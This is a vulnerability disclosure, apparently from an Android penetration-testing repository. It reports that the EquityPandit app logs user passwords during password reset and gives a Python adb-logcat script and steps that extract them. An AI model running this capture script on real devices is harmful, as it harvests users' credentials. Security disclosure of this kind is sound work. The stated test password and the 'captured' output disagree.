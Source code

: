 ## Summary

Software name: "EquityPandit"

Software link: https://play.google.com/store/apps/details?id=com.yieldnotion.equitypandit

Version: 1.0

### Issue #1 - Insecure logging lead to all account take over

Description: 
- Sometimes developers keeps sensitive data logged into the developer console. Thus, attacker easy to capture sensitive
information like password.
- In this application, with adb, attacker can capture password of any users via forgot password function.

Requirement:
- Santoku virtual machine
- Android virtual machine (installed "EquityPandit" apk file)
- Victim user/password: abc@lcedom.com/123456
- Exploit code named capture.py in Santoku vm as below:
```
import subprocess
import re

process_handler = subprocess.Popen(['adb', 'logcat', '-d'], stdout=subprocess.PIPE)
dumps = process_handler.stdout.read()
password_list = re.findall(r'password\s(.*)', dumps)
print 'Captured %i passwords! \nThey are:' %len(password_list)
for index, item in enumerate(password_list):
	print '\t#%i: %s' %(int(index)+1, item)
```

Reproduce:
- Step 1: From Santoku, use adb to connect to Android machine (x.x.x.x)
```
adb connect x.x.x.x
```
- Step 2: From Android machine, open EquityPandit, click forgot password function for acccount "abc@lcedom.com" and then click submit
- Step 3: From Santoku, execute capture.py
- Actual: Password of "abc@lcedom.com" will be show in terminal as "12345"

Demo:
[![PoC](https://github.com/ManhNho/Practical-Android-Penetration-Testing/blob/master/Images/Equitypandit%20PoC.JPG)](https://github.com/ManhNho/Practical-Android-Penetration-Testing/blob/master/Images/Equitypandit%20PoC.wmv)

